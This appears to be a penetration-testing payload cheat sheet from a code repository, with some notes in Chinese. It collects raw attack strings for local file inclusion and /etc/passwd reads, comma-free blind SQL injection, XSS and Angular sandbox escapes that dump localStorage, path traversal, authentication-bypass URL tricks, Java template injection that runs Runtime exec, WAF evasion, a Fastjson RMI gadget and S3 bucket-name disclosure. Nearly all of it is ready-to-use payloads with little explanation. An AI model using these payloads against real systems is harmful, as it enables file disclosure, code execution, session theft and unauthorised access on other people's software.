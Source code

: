 # Payloads

LFI

```
Java
netdoc:///etc/passwd
netdoc://xxx/etc/passwd
jar:http://localhost!/
jar:ftp://attack.com!/
jar:proto-schema://domain!/

PHP
http://example.com/page.php?page=\\1.1.1.1\test.txt

IOT
http://IP/fs/../../tmp/dropbear/dropbearpwd

APISIX
http://IP/public-service/../protected-service/protected
http://IP/public-service/..%2Fprotected-service/protected
```

SQLI

```
无逗号时间盲注
xxx'-cast((select CASE WHEN ((MY_QUERY) like 'CHAR_TO_BRUTE_FORCE%25') THEN (sleep(1)) ELSE 2 END) as char)-'
```

Reflected XSS

```
<a:script xmlns:a="http://www.w3.org/1999/xhtml">alert(1337)</a:script>
```

DOM XSS

```
绕过双引号转义，用结尾的 // 和前面的 }} 闭合 function()
\"}})})-confirm`1`(a=>{({b:{/*///

来自 https://github.com/oskarsve/ms-teams-rce/blob/main/README.md
"angular expression filtering can be bypassed by injecting a nullbyte char in unicode \u0000"
{{['if(typeof onetime==`undefined`){onetime=1;console.log(localStorage);}'].forEach($root.$$childHead.$$nextSibling.app.$window.eval)}\u0000}
```

AFD

```
/manage/log/view?filename=/etc/passwd&base=../../../../../
/utility/download.aspx?f=.+./utility/download.aspx
file:///c:/windows/system32/cmd.exe /c calc
abc.exe\..\
```

Redirect

```
target.com/admin         –> HTTP 302 (redirect to login page)
target.com/admin%20/     -> HTTP 200 OK
target.com/Admin/        -> HTTP 200 OK
target.com/%20admin%20/  -> HTTP 200 OK
target.com/admin%20/page -> HTTP 200 OK

/jk-status;              -> Auth required
/jk-status;?cmd=dump     -> No authentication
```

Java Template Injection

```
https://cyc10n3.medium.com/rce-via-server-side-template-injection-ad46f8e0c2ae
${("".getClass()).forName("java.lang".concat("Runtime")).getMethods()[6].invoke(("".getClass()).forName("java.lang".concat("Runtime"))).exec("wget")}
```

WAF

```
替换VERB绕过
XXX /test.php?id=INJECTION HTTP/1.1
```

Fastjson

* {"@type":"org.apache.commons.proxy.provider.remoting.RmiProvider","host":"127.0.0.1",port:"1099","name":"tr1ple"}

# App specific

S3 Bucket

```
来自 https://medium.com/@localh0t/unveiling-amazon-s3-bucket-names-e1420ceaf4fa，爆出 bucket 名字
https://example.com/avatars/123%C0
```

Joomla

```
example.com/components/
```

